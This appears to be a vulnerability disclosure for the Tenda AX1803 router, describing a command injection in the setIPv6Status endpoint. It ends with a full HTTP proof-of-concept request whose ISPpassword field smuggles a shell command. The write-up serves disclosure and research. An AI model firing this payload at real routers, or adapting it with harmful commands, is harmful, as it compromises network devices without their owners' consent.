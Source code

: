 

#***\* Tenda ax1803 has a command injection vulnerability\****

##* * * \ * overview\****

• ****\* type \ ****: command injection vulnerability

• * * * \ * supplier \ * * * *: Tengda（ https://tenda.com.cn ）

• ****\* product ****: WiFi router ax1803

• ***\*Firmware download address：\**** https://www.tenda.com.cn/download/detail-3225.html

• ***\*Firmware download address：\****https://down.tenda.com.cn/uploadfile/AX1803/US_AX1803v2.1br_v1.0.0.1_2890_CN_ZGYD01.zip

Tendaax1803 router adopts WiFi 6 (802.11ax) technology, and the dual band concurrency rate is up to 1775mbps (2.4ghz:574mbps, 5ghz:1201mbps). Compared with the ac1200 router of the previous generation WiFi 5 standard, the wireless rate is increased by 50% and the transmission distance is longer; Equipped with 1.5GHz high-performance quad core processor, the network load capacity is comprehensively improved, data forwarding is faster, and long-term operation is more stable; Using ofdma+mu-mimo technology, more devices can access the Internet at the same time, the transmission efficiency is significantly improved, the delay is significantly reduced, and the online games and ultra clear videos for multiple people are more fluent. It is the first choice for building a multimedia home network! Command Execution Vulnerability in setipv6status



##* * * \ * description\****



###***\* I. product information:\****



Overview of the latest version of Tenda ax1803 router simulation:

![image-20220624183557535](img/image-20220624183557535.png)

 

 

 

\### ***\*2. Vulnerability details\****



Tenda ax1803 is found to have a command injection vulnerability in the setipv6status function

![image-20220624133917486](img/image-20220624133917486.png)



When we set connect type = ' PPPoE ', we will get a command injection vulnerability after logging in.

 ![image](img/image.png)

 

 ![image-20220624180331870](img/image-20220624180331870.png)





\## ***\*3. Recurring vulnerabilities and POCS\****

To reproduce the vulnerability, the following steps can be followed:

Start firmware through QEMU system or other methods (real machine)

Attack with the following POC attacks

Note to replace the password field in the cookie

```
POST /goform/setIPv6Status HTTP/1.1
Host: 192.168.2.1
Connection: close
Content-Length: 191
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="98", "Google Chrome";v="98"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.109 Safari/537.36
sec-ch-ua-platform: "macOS"
Origin: https://192.168.2.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.2.1/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=edeff4d6d98974e46457a587e2e724a2ndy5gk

IPv6En=1&conType=PPPoE&ISPusername=addasdas&ISPpassword=$(ls > /tmp/xxx)&prefixDelegate=0&wanAddr=%2F&gateWay=&lanType=undefined&wanPreDNS=&wanAltDNS=&lanPrefix=undefined%2F64
```

 
